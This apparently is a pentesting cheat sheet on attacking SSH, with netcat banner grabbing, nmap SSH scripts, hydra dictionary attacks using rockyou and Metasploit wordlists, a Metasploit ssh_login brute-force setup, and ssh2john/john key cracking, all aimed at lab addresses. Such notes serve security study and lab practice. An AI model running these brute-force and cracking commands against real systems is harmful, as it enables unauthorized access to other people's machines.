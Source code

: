 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. netcat
	2. [nmap](#nmap)
	3. [hydra](#hydra)
	4. [msfconsole](#msfconsole)

---

# Overview
SSH - Secure Shell

Used to connect to securely connect to remote machines.

## #Ports
- 22 : main port

## Related Services
- vFTP

## Usage
`ssh -p 22 user@192.168.4.3`

---

# #Tools
## netcat
`nc 192.168.13.3 22` 
- grabs banner

---

## #nmap
- --script
	- ssh2-enum-algos
		- shows key algorithms
	- ssh-hostkey 
		- --script-args ssh_hostkey=full
	- ssh-auth-methods
		- can check if user has no password set
		- --script-args="ssh.user=admin"
	- ssh-brute --script-args userdb=/userlist
		- args : userdb, passdb, timeout
		- has its own wordlist
	- ssh-run 
		- `--script-args"username=student,password="",cmd=ls"`

---

## #hydra
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
192.168.7.3 -t 4 ssh 
```

---

## #msfconsole
- use auxiliary/scanner/ssh/ssh_login
	- options
	- set rhosts 192.26.34.2
	- set userpass_file /usr/share/wordlists/metaslpoit/root_userpass.txt
	- set STOP_ON_SUCCESS true
	- set verbose true
	- run

##ssh2john
1. `ssh2john > hash`
2. `john -w wordlist/rockyou.txt hash`

---

### Userful Modules
- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login